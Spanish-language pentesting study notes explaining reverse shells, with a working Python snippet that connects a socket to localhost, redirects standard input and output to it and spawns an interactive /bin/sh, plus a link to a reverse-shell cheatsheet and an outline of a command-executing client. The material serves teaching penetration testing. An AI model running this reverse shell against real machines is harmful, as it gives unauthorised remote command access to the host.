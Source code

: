 - Una **Shell inversa** se trata de una acción mediante la cual un usuario consigue acceder a la shell de un servidor externo. 

- Por ejemplo, si estás trabajando en una fase de pentesting relacionada con la post-explotación y te gustaría crear un script que se invoque en ciertos escenarios que automáticamente hará obtener una sehll para acceder al sistema de ficheros de otra máquina, podrías utilizar una shell inversa.

-  En este caso, utilizaremos dos nuevos módulos: 
    - `Módulo os`: módulo de interfaz de sistema operatico multipropósito.
    - `Módulo subprocess`: permite que el script ejecute comandos e interactua con la entrada y salida de los mismos.

- Usamos el método `sock.connect()` para conectarnos a un host correspondiente a una determinada IP y puerto(en este caso, localhost)

- Una vez hemos obtenido la shell, podríamos obtener un listado del directorio mediante el comando `/bin/ls`, pero antes necesitamos establecer la conexión con nuestro socket a través de la salida del comando. 
    - `os.dup2(sock.fileno())`

    ```python
    #!/usr/bin/python

    import socket
    import subprocess
    import os
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 45679))
    os.dup2(sock.fileno(),0)
    os.dup2(sock.fileno(),1)
    os.dup2(sock.fileno(),2)
    shell_remote = subprocess.call(["/bin/sh", "-i"])
    #proc = subprocess.call(["/bin/ls", "-i"])
    ```	

---

- En el siguiente enlace podemos ver el comando que podríamos usar para otros sistemas operativos:
    - [Link Github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

--- 

### Implementar una shell inversa en Python

- El servidor podría estar escuahando el puerto localhost:9090 para una nueva conexión. 

- Cuando un cliente soliciata una nueva convexión, enviará su nombre de host y el servidor imprimirá el nombre del host y la dirección IP del cliente.

- Una vez tenemos servidor y cliente en funcionamiento, nuestro objetivo sería extender nuestro clientes para que pueda ejecutar cualquier comando que el servidor le envíe.

- Para ello podríamo susar un módulo de Python llamado `subprocess` para ejecutar el comando desde el servidor.
    - El módulo `subprocess` permite ejecutar nuevos procesos y obtener una salida de los mismos.
    - [Documentación del módulo subprocess](https://docs.python.org/3/library/subprocess.html)

---